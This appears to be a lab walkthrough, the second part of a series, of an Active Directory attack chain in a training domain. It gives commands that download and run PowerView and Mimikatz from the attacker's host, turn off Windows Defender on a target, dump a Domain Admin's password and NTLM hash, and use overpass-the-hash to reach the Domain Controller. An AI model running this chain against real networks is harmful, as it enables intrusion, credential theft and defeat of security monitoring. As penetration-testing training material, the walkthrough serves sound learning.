








Introduction
In this article, we continue from where we left off in Part 1. After compromising the CMS, which was running with Local Administrator privileges under the user ciadmin, we now need to find a way to advance our attack toward the Domain Controller. It is recommended that you follow the previous article to have full context.
Walkthrough
Step 1: Enumerate with PowerView
In the previous article, we ran Mimikatz and examined the passwords stored in memory, but we did not find any credentials for a user that would help us advance further toward the Domain Controllers.
Now, we will load the PowerView tool into memory using the following command:
iex (iwr http://172.16.100.7:9090/PowerView.ps1 -UseBasicParsing)

Step 2: Hunt for Domain Admin Sessions
Next, we execute the Invoke-UserHunter command with the -CheckAccess flag:
Invoke-UserHunter -CheckAccess
What does Invoke-UserHunter do?
This command checks every machine joined to the domain to determine whether any user who is a member of the Domain Admins group is currently logged into that machine. It also checks whether we have Local Administrator access on that machine.
Why is this useful?
If we find a machine where a Domain Admin is logged in and we have Local Administrator access to that machine, we can run Mimikatz on it to extract the NTLM hash of the Domain Admin user. Since that user is a member of Domain Admins, we can then use their credentials to access the Domain Controller.

Step 3: Identify the Target
After running the command, we observe that the machine dcorp-mgmt has the user svcadmin logged into it. The user svcadmin is a member of the Domain Admins group, and we have Local Administrator privileges on this machine.
Step 4: Execute Commands Remotely on the Target
We verify our access by executing commands remotely on the target machine:
Invoke-Command -Computername dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock {whoami;hostname}

Step 5: Disable Windows Defender
Before loading Mimikatz, we need to disable Windows Defender's real-time monitoring on the target machine:
Invoke-Command -Computername dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true}

Step 6: Load Mimikatz into Memory on Our Machine
We load the Mimikatz PowerShell script into our local session:
iex (iwr http://172.16.100.7:9090/Invoke-Mimikatz.ps1 -UseBasicParsing)

Step 7: Execute Mimikatz Remotely on the Target
Now we invoke Mimikatz on the target machine dcorp-mgmt to extract credentials from its memory:
Invoke-Command -Computername dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock ${function:Invoke-Mimikatz}
We can see that we now have:
- The plaintext password: *ThisisBlasphemyThisisMadness!!
- The NTLM hash: b38ff50264b74508085d82c69794a4d8

Step 8: Perform the Overpass-the-Hash Attack
We will use the NTLM hash rather than the plaintext password to demonstrate the Overpass-the-Hash technique, because in real-world scenarios Mimikatz does not always return the password in plaintext.
Open PowerShell as Administrator on our machine, load Mimikatz, and execute the following command to spawn a new PowerShell session running as the svcadmin user:
sekurlsa::pth /user:svcadmin /ntlm:b38ff50264b74508085d82c69794a4d8 /domain:dollarcorp.moneycorp.local /run:powershell.exe
A new PowerShell window opens, and we are now operating with the privileges of svcadmin.
Step 9: Identify the Domain Controller
Since the user we are impersonating is a member of the Domain Admins group, we can now access the Domain Controller. But first, we need to find out the Domain Controller's hostname.
There are multiple ways to do this -- for example, using PowerView or Mimikatz. We will use PowerView.
Open a PowerShell session and load PowerView:
Import-Module .\PowerView.ps1
Then run the following command to find the Domain Controller's name:
Get-NetDomain
We can see that the Domain Controller's hostname is: dcorp-dc.dollarcorp.moneycorp.local

Step 10: Access the Domain Controller
Now we return to the PowerShell session running as svcadmin and enter a remote session on the Domain Controller:
Enter-PSSession -ComputerName dcorp-dc
We have now reached the highest level of privilege in the Active Directory environment -- full access to the Domain Controller.
